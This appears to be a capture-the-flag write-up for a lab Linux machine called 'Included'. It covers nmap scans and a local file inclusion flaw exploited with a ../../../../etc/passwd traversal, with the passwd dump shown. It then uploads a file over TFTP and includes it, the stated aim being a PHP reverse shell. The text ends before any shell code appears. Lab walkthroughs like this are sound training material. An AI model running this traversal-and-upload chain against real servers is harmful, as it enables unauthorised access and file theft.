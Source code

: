```yaml
---
title: "Writeup: Included"
date: 2021-01-17T19:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - included
  - Linux
  - update
  - nmap
  - passwords
  - lxc
  - dirsearch
  - webshell
  - LFI
  - TFTP
  - nc
  - strings
  - chmod
  - upgrade shell
  - nmap
---
```


Here are notes from the named target:
Target is Linux
Host name Included
IP 10.10.10.55

#Enumeration
Start with simple nmap

```yaml
┌──(root💀kali)-[~]
└─# nmap -A -v 10.10.10.55
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-19 20:42 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:42
Completed NSE at 20:42, 0.00s elapsed
Initiating NSE at 20:42
Completed NSE at 20:42, 0.00s elapsed
Initiating NSE at 20:42
Completed NSE at 20:42, 0.00s elapsed
Initiating Ping Scan at 20:42
Scanning 10.10.10.55 [4 ports]
Completed Ping Scan at 20:42, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:42
Completed Parallel DNS resolution of 1 host. at 20:42, 0.02s elapsed
Initiating SYN Stealth Scan at 20:42
Scanning 10.10.10.55 [1000 ports]
*Discovered open port 80/tcp on 10.10.10.55

```

only port found open was port 80 http so going to try UDP also

```yaml
nmap -sU -v 10.10.10.55
```

#This will take some time so going to check out web site in browser

Look at the webpage does not seem too special so take a look at page source and I see this in the URL block

```yaml
view-source:http://10.10.10.55/?file=index.php#
```

the URL has a tell for possible local file include to try

First it is *PHP

Second it has ?file= in the URL

The common path to check if it is vulnerable to LFI is the *../../../../etc/passwd file path

So by using this URL *http://10.10.10.55/?file=../../../../etc/passwd

We get the password file inserted at the top od the page for viewing. that also tells me if I can get a PHP reverse shell on the site I can use the browd\ser to fire it off

```yaml
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
*lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
*mike:x:1000:1000:mike:/home/mike:/bin/bash
*tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

*Oh look!* we have good intel here 
It has an account for *tftp* - good way to get in. A user account named *mike* and a service called *lxd* which is a service to host virtural file systems in linux like vbox does on laptops. some easy reading indicated this is also a way to do Linux PE to get root if you grt on the box.

We have tftp service running it seems:

```yaml
──(root💀kali)-[~]
└─# nmap -sU -v 10.10.10.55
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-19 20:47 EST

`
`
PORT   STATE         SERVICE
*69/udp open|filtered tftp*
```

#Gain a foothold

I know TFTP is running so going to try and connect to that but need some basic commands

```yaml
Invoking TFTP
To invoke TFTP, enter at the DCL prompt:

TFTP [host [port]]

┌──(root💀kali)-[~]
└─# tftp 10.10.10.55
tftp> help
?Invalid command
tftp> get
(files) 
usage: get host:file host:file ... file, or
       get file file ... file   if connected, or
       get host:rfile lfile
tftp> ls
?Invalid command
tftp> quit
                                                                                             
```
So it is working now test it by using PUT to put a test file on the server in the tftp directory

Make a file locally ant the connect to TFTP and put the file

touch 55test.txt > nano 55test.txt > this is a test file > save

this works too
```yaml
┌──(root💀kali)-[~]
└─# echo "this is a test" > test.txt

```
Now to send it - looks like it worked
```yaml
┌──(root💀kali)-[~]
└─# tftp 10.10.10.55
tftp> put test.txt
Sent 16 bytes in 0.1 seconds
tftp> 

```
Now to test if I can get to files placed in the tftp folder from the web browser

##Research:

```yaml
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default root directory where files will be stored is /var/lib/tftpboot.Nov 19, 2015
```
Yes we can! -- go to URL http://10.10.10.55/?file=../../../../var/lib/tftpboot/test.txt

and View source URL - view-source:http://10.10.10.55/?file=../../../../var/lib/tftpboot/test.txt
```yaml
this is a test
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title></titl
...
```





















